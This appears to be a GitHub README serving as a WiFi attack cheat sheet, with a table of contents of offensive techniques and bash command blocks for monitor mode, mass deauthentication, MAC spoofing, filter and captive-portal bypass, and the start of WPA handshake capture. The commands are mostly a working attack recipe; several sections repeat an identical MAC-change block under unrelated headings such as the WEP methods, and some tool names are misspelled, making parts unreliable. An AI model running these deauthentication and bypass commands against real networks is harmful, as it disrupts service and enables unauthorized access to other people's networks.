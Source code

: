 ## Table of Contents

* [General WiFi Information](#general-wifi-information)
* [Enabling Monitor mode](#enabling-monitor-mode)
* [Attack/PenTesting](#attackpentesting)
  * [Pre-connection Attacks](#Pre-connection-Attacks)
    * [MAC address changing](#MAC-address-changing)
    * [Deauthenticating All Clients From Protected WiFi Network](#Deauthenticating-All-Clients-From-Protected-WiFi-Network)
    * [Deauthenticating a Client From Protected WiFi Networks](#Deauthenticating-a-Client-From-Protected-WiFi-Networks)
  * [Gaining Access](#Gaining-Access)
    * [Discovering Names of Hidden Networks](#Discovering-Names-of-Hidden-Networks)
    * [Bypassing Mac Filtering (Blacklists & Whitelists)](#Bypassing-Mac-Filtering-(Blacklists-&-Whitelists))
    * [Bypassing Captive portals](#Bypassing-Captive-portals)
	* [WEP ](#others)
	* [WPA/WPA 2 ](###WPA/WPA2)
              .
	    * [Exploiting WPS ](#others)
	    * [Wordlist Attack ](#others)
	    * [Evil Twin Attack ](#others)
	* [WPA/WPA2 Enterpise](#others)
	* [Fake Access Point](#others)
  * [Post-connection Attacks](#injection)
    * [Capture data](#wepwpawpa2)
    * [Information Gathering](#wps)
    * [Bypass HTTPs](#others)
	* [Bypass router-side security features ](#others)
	* [MITM Attack ](#others)
	* [ARP spoofing](#others)
	* [DNS spoofing](#others)
	* [DoS Attack ](#others)
	* [Data Modification ](#others)
	* [Sniffing Cookies](#others)
	* [Session Hijacking](#others)
	* [Other Attacks](#others)
## Enabling Monitor mode
```Bash
  > iwconfig
  > airmon-ng check kill  
  > airmon-ng start wlan1 
  > airodump-ng wlan1mon 
    OR
  > airodump-ng --band a wlan1mon (show all type of wifi networks 5 Ghz or 2.4 Ghz)
  ```
  ## Pre-connection Attacks
### MAC address changing
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
 ### Deauthenticating All Clients From Protected WiFi Network
```Bash
  > airodump-ng -bssid 44:55:tt:ee:ee:bb --channel 11 wlan0
  > aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb wlan0  
  ```
### Deauthenticating a Client From Protected WiFi Networks
```Bash
  > aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0  
  ```
  ## Gaining Access
 ### Discovering Names of Hidden Networks
```Bash
  > airodump-ng --bssid 44:55:tt:ee:ee:bb --channel 6 wlan0
  > airoplay-ng --deauth 4 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0  
  ```
 ### Bypassing Mac Filtering (Blacklists & Whitelists)
```Bash
  > ifconfig wlan0 down
  > macchanger -m 22:dd:33:44:55:66 wlan0  
  ```
  ### Bypassing Captive portals
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  ### WEP 
  Method 1 - Fake Authentication Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  Method 2 - ARP Replay Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  Method 3 - Chop Chop Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  Method 4 - Fragmentation Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  Method 5 - SKA (Shared Key Authentication) Type Cracking
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  
   ### WPA/WPA2
   #### Capture Handshake File
   
  Method 1 - Fake Authentication Attack
```Bash
  > airodump-ng --bssid AP:MA:C0:EE:VV --channel 11 --write handshakefilename mon0
  > airplay-ng --deauth 4 -a AP:MA:C0:EE:VV -c CL:IE:NT:MA:C0 mon0
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
